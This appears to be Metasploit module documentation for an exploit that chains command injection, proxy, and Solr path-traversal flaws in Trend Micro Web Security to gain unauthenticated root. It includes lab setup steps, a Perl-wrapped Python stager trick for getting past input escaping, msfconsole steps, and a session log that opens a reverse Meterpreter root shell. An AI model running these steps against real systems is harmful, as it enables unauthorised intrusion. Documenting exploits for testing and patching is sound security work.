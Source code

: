 ## Vulnerable Application

This module exploits multiple vulnerabilities together in order to achieve remote code execution in Trend Micro Web Security.
Unauthenticated users can execute a terminal command under the context of the root user.

The specific flaw exists within the `LogSettingHandler` class of administrator interface software. When parsing the `mount_device`
parameter, the process does not properly validate a user-supplied string before using it to execute a system call. An attacker can leverage
this vulnerability to execute code in the context of root. But authentication is required to exploit this vulnerability.

Another specific flaw exists within the proxy service, which listens on port `8080` by default. Unauthenticated users can exploit this
vulnerability to communicate with internal services in the product.

Last but not least a flaw exists within the Apache Solr application, which is installed within the product. When parsing the `file`
parameter, the process does not properly validate a user-supplied path prior to using it in file operations. An attacker can leverage this
vulnerability to disclose information in the context of the `IWSS` user.

Due to a combination of these vulnerabilities, unauthenticated users can execute a terminal command under the context of the `root` user.

Versions prior to 6.5 SP2 Patch 4 (Build 1901) are affected.

### Vulnerable Application Installation Steps

Trend Micro Web Security is distrubed as an ISO image by Trend Micro.

The following steps are valid on the CentOS 6 x64 bit operating system.

1. Open following URL [http://downloadcenter.trendmicro.com/](http://downloadcenter.trendmicro.com/)
2. Find "InterScan Web Security Virtual Appliance" and click.
3. Go to **Service Pack** section.
4. At the time of writing this documentation, you must see **IWSVA-6.5-SP2-1548-x86_64.iso** next to Download button.
5. Click to the download button and complete installation of ISO.

[https://files.trendmicro.com/products/iwsva/6.5/IWSVA-6.5-SP2-1548-x86_64.iso](https://files.trendmicro.com/products/iwsva/6.5/IWSVA-6.5-SP2-1548-x86_64.iso)

**System settings used for installation:**
- Virtualbox or VMware can be used.
- 8 GB of memory at least.
- 60 GB of disk size at least.

### Why perl wrapper for python stager?

Within the exploit function, you can see a custom Perl wrapper usage for python stager payload. The parameter that contains our payload is
going through escaping (double quotes, backslash, etc) and blacklist checks on the server-side. Most of the cmd payload will not work under
these circumstances.

I love meterpreter <3 Using python dropper, which gives a meterpreter session, with command injection vulnerability requires using a double
quote or Single-Backslash-Single-Single combination.

```
python -c '#{payload.encoded'
"python -c '#{payload.encoded.gsub("'", "'\\\\''")}'"
```

In that specific case, none of these approaches works. The idea is wrapping the python dropper within the perl command that does not
contain any special characters.

## Verification Steps

1. Start `msfconsole`
2. Run `use exploit/linux/http/trendmicro_websecurity_exec`
3. Set `RHOST`
4. Set `LHOST`
5. Run `check`
6. **Verify** that you are seeing `The target is vulnerable.`
7. Run `exploit`
8. You should get a root shell

## Options

## Scenarios

### Trend Micro Web Security 6.5-SP2_Build_Linux_1852

```
msf > use exploit/linux/http/trendmicro_websecurity_exec
msf exploit(linux/http/trendmicro_websecurity_exec) > set RHOSTS 192.168.74.31
RHOSTS => 192.168.74.31
msf exploit(linux/http/trendmicro_websecurity_exec) > set LHOST 172.31.224.186 
LHOST => 172.31.224.186
msf exploit(linux/http/trendmicro_websecurity_exec) > check

[*] Trying to extract session ID by exploiting reverse proxy service
[+] Extracted number of JSESSIONID : 16
[*] Testing JSESSIONID #0 : 132B2651F070E865A646F3ABA681769A
[+] Awesome !!! JESSIONID #0 is active.
[+] 192.168.74.31:8443 - The target is vulnerable.
msf exploit(linux/http/trendmicro_websecurity_exec) > run

[*] Started reverse TCP handler on 172.31.224.186:4444 
[*] Trying to extract session ID by exploiting reverse proxy service
[+] Extracted number of JSESSIONID : 16
[*] Testing JSESSIONID #0 : 132B2651F070E865A646F3ABA681769A
[+] Awesome !!! JESSIONID #0 is active.
[*] Exploiting command injection vulnerability
[*] Sending stage (53755 bytes) to 172.31.224.1
[*] Meterpreter session 1 opened (172.31.224.186:4444 -> 172.31.224.1:53061) at 2020-06-18 20:10:29 +0300

meterpreter > shell
Process 40116 created.
Channel 1 created.
sh: no job control in this shell
sh-4.1# id
uid=0(root) gid=0(root) groups=0(root),499(iscan)
sh-4.1#
```
